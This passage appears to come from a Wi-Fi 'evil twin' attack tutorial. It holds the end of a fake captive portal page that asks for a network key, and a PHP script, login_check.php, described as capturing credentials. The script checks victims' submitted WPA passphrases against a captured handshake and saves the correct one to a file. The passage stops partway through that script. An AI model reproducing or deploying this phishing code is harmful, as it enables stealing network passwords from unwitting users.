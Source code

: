    ```
                               echo '<h3>Login successful</h3>';
                               echo '<h3>You may close this page</h3>';
                           } else {
                               if (isset($_GET["failure"])) {
                                   echo '<h3>Invalid network key, try again</h3><br/><br/>';
                               }
                       ?>
                   <h3>Enter network key</h3><br/><br/>
                   <form action="login_check.php" method="post">
                       <input type="password" id="passphrase" name="passphrase"><br/><br/>
                       <input type="submit" value="Connect"/>
                   </form>
                   <?php
                           }
                   ?>
                   </div>
   
                   <div class="col-lg-4 col-lg-offset-4 himg ">
                       <i class="fa fa-cog" aria-hidden="true"></i>
                   </div>
               </div>
           </div>
   
       </body>
   </html>
   ```

2. **Capture credentials** with a simple PHP logger:
   
   `/var/www/html/portal/login_check.php`:
   
   ```php
   <?php
   # Path of the handshake PCAP THIS IS IMPORTANT to confirm if the handshake is correct or not! 
   $handshake_path = '/home/kali/CHANGE_ME';
   # ESSID
   $essid = 'CHANGE_ME_HUMAN_READABLE_ESSID';
   # Path where a successful passphrase will be written
   # Apache2's user must have write permissions
   # For anything under /tmp, it's actually under a subdirectory
   #  in /tmp due to Systemd PrivateTmp feature:
   #  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
   # See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
   $success_path = '/tmp/passphrase.txt';
   # Passphrase entered by the user
   $passphrase = $_POST['passphrase'];
   
   # Make sure passphrase exists and
   # is within passphrase lenght limits (8-63 chars)
   if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
     header('Location: index.php?failure');
     die();
   }
   
   # Check if the correct passphrase has been found already ...
   $correct_pass = file_get_contents($success_path);
   if ($correct_pass !== FALSE) {
   
     # .. and if it matches the current one,
     # then redirect the client accordingly
     if ($correct_pass == $passphrase) {
       header('Location: index.php?success');
     } else {
       header('Location: index.php?failure');
   ```